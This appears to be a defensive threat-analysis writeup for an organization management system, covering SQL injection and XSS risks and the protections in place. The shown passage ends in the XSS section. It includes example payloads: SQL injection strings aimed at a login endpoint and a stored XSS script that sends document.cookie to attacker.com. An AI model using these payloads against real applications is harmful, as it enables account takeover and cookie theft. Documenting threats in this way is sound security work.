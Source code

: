 # SECURITY THREAT ANALYSIS - Organization Management System
## Comprehensive Attack Vectors & Protection Status

---

## 🔴 CRITICAL THREATS (High Priority)

### 1. **SQL Injection Attacks**
**Risk Level:** CRITICAL  
**Status:** ✅ PROTECTED (Prisma ORM + Input Validation)

**Attack Methods:**
- Malicious SQL code in query parameters
- SQL commands in form inputs
- Second-order SQL injection via stored data
- Blind SQL injection through timing attacks

**Protection Implemented:**
- ✅ Prisma ORM uses parameterized queries (prepared statements)
- ✅ Input validation with class-validator
- ✅ ProductionSecurityMiddleware detects SQL patterns
- ⚠️ Need: Query timeout limits
- ⚠️ Need: Connection pool monitoring

**Example Attack:**
```
GET /lectures?causeId=1' OR '1'='1
POST /login { "email": "admin'--", "password": "any" }
```

---

### 2. **Cross-Site Scripting (XSS)**
**Risk Level:** CRITICAL  
**Status:** ✅ PROTECTED

**Attack Types:**
- **Stored XSS:** Malicious scripts saved in database
- **Reflected XSS:** Scripts in URL parameters
- **DOM-based XSS:** Client-side script manipulation

**Attack Methods:**
```javascript
// Stored XSS in lecture title
<script>fetch('http://attacker.com?cookie='+document.cookie)</script>

// Reflected XSS in search
/lectures?search=<img src=x onerror=alert('XSS')>

// Event handler injection
<div onmouseover="steal_credentials()">Hover me</div>
```
